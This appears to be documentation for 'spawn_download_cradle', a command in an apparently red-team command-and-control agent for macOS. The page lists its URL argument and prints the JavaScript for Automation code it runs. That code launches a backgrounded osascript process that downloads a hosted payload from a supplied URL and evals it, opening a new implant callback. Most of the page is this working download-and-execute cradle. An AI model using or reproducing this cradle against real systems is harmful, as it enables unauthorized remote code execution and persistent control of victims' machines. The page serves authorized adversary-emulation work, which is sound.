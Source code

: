 ```yaml
---
title: "spawn_download_cradle"
description: "Spawn a new osascript download cradle as a backgrounded process to launch a new callback"
---
```


## Summary

Spawn a new osascript download cradle as a backgrounded process to launch a new callback 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

#### url

- Description: full URL of hosted payload  
- Required Value: True  
- Default Value: None  

## Usage

```
spawn_download_cradle 
```


## Detailed Summary
Uses the same execution technique as the `run` command to launch a backgrounded `osascript` binary with a download cradle:
```javascript
let path = "/usr/bin/osascript";
let args = ['-l','JavaScript','-e'];
let command = "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString(";
command = command + "'" + full_url + "')),$.NSUTF8StringEncoding)));";
args.push(command);
args.push("&");
try{
    let pipe = $.NSPipe.pipe;
    let file = pipe.fileHandleForReading;  // NSFileHandle
    let task = $.NSTask.alloc.init;
    task.launchPath = path;
    task.arguments = args;
    task.standardOutput = pipe;
    task.standardError = pipe;
    task.launch;
}
```

This doesn't generate a new payload, it just pulls down and executes the payload hosted at `url`.

